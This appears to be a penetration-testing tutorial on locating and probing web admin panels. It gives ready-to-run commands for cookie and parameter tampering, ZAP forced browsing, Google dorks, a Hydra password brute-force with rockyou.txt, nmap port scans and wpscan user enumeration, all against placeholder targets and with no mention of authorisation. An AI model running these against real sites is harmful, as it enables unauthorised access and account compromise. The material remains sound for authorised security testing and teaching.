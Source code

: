##  Practical Walkthrough: Finding and Testing Admin Interfaces

###  Tools You’ll Need

* **Browser with DevTools** (Chrome/Firefox)
* **OWASP ZAP** (for forced browsing and inspecting traffic)
* **THC-HYDRA** (for brute-forcing logins)
* **curl** or **Burp Suite** (optional for manual testing)
* **Wordlists** (like SecLists: `/usr/share/seclists/Discovery/Web-Content/` if on Kali Linux)



##  Step-by-Step Testing Guide


###  Step 1: **Check the Source Code for Clues**

1. Open a target website in your browser.
2. Right-click → “View Page Source”
3. Search for hints like:

   ```html
   <a href="/admin/">Admin Panel</a>
   <input type="hidden" name="isAdmin" value="false">
   ```
4. Also look at cookie values in DevTools → Application → Cookies:

   ```http
   Cookie: sessionid=xyz123; admin=false
   ```

   → Try changing `admin=false` to `admin=true`.



###  Step 2: **Try Common Admin Paths Manually**

In your browser, try paths like:

```
https://target-site.com/admin
https://target-site.com/login.php
https://target-site.com/wp-admin
```

Use this list of common paths (from SecLists):

```bash
/usr/share/seclists/Discovery/Web-Content/common.txt
```



###  Step 3: **Automated Directory Brute Force with OWASP ZAP**

1. Open **OWASP ZAP**
2. Set your browser to proxy through ZAP (usually `127.0.0.1:8080`)
3. Visit the site to populate ZAP
4. Right-click target → “Attack” → “Forced Browse” (use built-in wordlists)
5. It will scan for hidden directories like `/admin`, `/dashboard`, etc.


###  Step 4: **Use Google Dorks**

Try these queries in Google:

```
site:target-site.com inurl:admin
site:target-site.com intitle:"login"
site:target-site.com "Welcome Admin"
```

This may reveal open or unlisted admin pages indexed by search engines.



###  Step 5: **Brute Force Login with THC-HYDRA**

If you find a login form:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt target-site.com http-post-form "/admin/login.php:username=^USER^&password=^PASS^:F=incorrect"
```

* Replace the path and parameters with the actual values
* `F=incorrect` is the failure message seen on login attempts



###  Step 6: **Try Parameter Tampering**

Send this in `curl` or Burp:

```bash
curl -X POST https://target-site.com/dashboard \
  -d "user=normal&admin=1"
```

Or modify:

```http
Cookie: sessionid=xyz; useradmin=1
```



###  Step 7: **Check for Alternate Ports**

Some admin panels use other ports:

```bash
nmap -p 1-10000 target-site.com
```

Check for open ports like:

* `8080` (Tomcat Admin)
* `8443` (WebLogic Admin)
* `2082` / `2083` (cPanel)



##  Bonus: Testing Known CMSs

If the site is built on a CMS like WordPress, Joomla, etc., try:

```bash
https://target.com/wp-admin/
https://target.com/administrator/
```

Use tools like **wpscan**:

```bash
wpscan --url https://target.com --enumerate u
```


